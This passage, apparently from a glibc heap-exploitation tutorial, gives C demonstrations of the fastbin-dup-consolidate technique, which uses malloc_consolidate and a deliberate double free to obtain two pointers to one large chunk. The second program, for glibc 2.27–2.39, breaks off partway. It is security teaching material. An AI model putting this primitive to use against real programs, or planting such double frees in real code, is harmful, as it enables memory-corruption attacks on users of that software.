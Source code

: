 ```C
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
	printf("This technique will make use of malloc_consolidate and a double free to gain a UAF / duplication of a large-sized chunk\n");

	void* p1 = calloc(1,0x40);

	printf("Allocate a fastbin chunk p1=%p \n", p1);
  	printf("Freeing p1 will add it to the fastbin.\n\n");
  	free(p1);

  	void* p3 = malloc(0x400);

	printf("a chunk with chunk size 0x410. p3=%p\n", p3);
	
    assert(p1 == p3);

	free(p1); // vulnerability
    
	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("We now have two pointers (p3 and p4) that haven't been directly freed\n");
	printf("and both point to the same large-sized chunk. p3=%p p4=%p\n", p3, p4);
	printf("We have achieved duplication!\n\n");
	return 0;
}
```



#### glibc 2.27 - glibc 2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

#define CHUNK_SIZE 0x400
int main() {
	void *ptr[7];

	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);

	void* p1 = malloc(0x40);
    
	for(int i = 0; i < 7; i++)
		free(ptr[i]);
    
  	free(p1);

  	void* p2 = malloc(CHUNK_SIZE);

	assert(p1 == p2);

	free(p1); // vulnerability (double free)
    
	printf("It is now in the tcache (or merged with top if we had initially chosen a chunk size > 0x410).\n");

```